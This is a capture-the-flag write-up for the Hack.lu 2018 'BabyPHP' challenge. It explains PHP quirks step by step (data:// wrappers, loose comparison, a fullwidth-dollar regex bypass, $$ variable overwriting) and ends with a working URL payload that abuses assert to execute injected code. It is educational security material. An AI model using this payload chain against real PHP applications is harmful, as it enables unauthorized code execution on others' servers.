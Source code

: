 After access this site, we will see [source code](https://github.com/LyleMi/CTF/blob/master/2018/Hacklu/BabyPHP/index.php) here, we can know this is a typical PHP trick challenge.

## Part One: PHP Wrapper

```php
@$msg = $_GET['msg'];
if(@file_get_contents($msg)!=="Hello Challenge!"){
    die('Wow so rude!!!!1');
}
```

At first, we need to find an input which satisfies the above conditions. In here, we need PHP wrapper.

PHP can read something like ``php://input`` / ``data://text/plain;xxx`` and some other things as file.

For example, ``file_get_contents("data://text/plain,Hell Challenge!")`` will return ``Hello Challenge!`` here, so we can solve this part by use ``data://text/plain,Hell Challenge!`` as payload.

## Part Two: Weak Type

```php
@$k1=$_GET['key1'];
@$k2=$_GET['key2'];

$cc = 1337;$bb = 42;

if(intval($k1) !== $cc || $k1 === $cc){
    die("lol no\n");
}
```

After that, we need to find a k1 which ``intval($k1) == $cc`` and ``$k1 !== $cc``, this is easy, when we post some thing, PHP will use it as string, so ``1337`` is enough here.

## Part Three: UTF8

```php
if(strlen($k2) == $bb){
    if(preg_match('/^\d+＄/', $k2) && !is_numeric($k2)){
        if($k2 == $cc){
            @$cc = $_GET['cc'];
        }
    }
}
```

At first glance, we need to find a k2 which only have digit here, but is not number by PHP's ``is_numeric`` function. But this challenge use ``＄`` rather than ``$``, so ``000000000000000000000000000000000001337＄`` would be cool.

## Part Four: Variable Coverage

```php
if(substr($cc, $bb) === sha1($cc)){
    foreach ($_GET as $lel => $hack){
        $$lel = $hack;
    }
}
```

In PHP, you can use ``$$`` to get a dynamic variable. For example:

```php
$b = true;
$a = 'b';
$$a = false;
var_dump($b); // false here
```

Therefore we can change some variable here. However, we need bypass this check ``substr($cc, $bb) === sha1($cc)`` first. We need another PHP trick here. When we post an array, ``substr`` / ``sha1`` will return ``NULL`` but not throw error here, so send ``cc[]=1`` will bypass this check.

## Part Five: Evil Assert

After satisfying the above conditions, we found that the code to print the flag was commented. But it doesn't matter, we have ``assert`` here! Assert will execute the string passed in, and we can control all variable with variable coverage part.

Finally, our payload is ``https://arcade.fluxfingers.net:1819/?bb=print_r%28%24flag%29%3B%2F%2F&key2=000000000000000000000000000000000001337%EF%BC%84&key1=1337&k1=2&cc%5B%5D=&msg=data%3A%2F%2Ftext%2Fplain%2CHello+Challenge%21``.

